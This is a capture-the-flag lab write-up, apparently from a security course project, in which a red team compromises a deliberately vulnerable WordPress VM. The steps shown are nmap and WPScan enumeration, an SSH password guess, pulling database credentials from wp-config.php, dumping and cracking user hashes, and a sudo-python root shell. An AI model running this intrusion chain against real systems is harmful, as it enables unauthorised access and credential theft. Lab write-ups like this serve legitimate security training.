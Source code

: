 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![Flag 1 location](/Images/flag1-location.png "Flag 1 location")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")
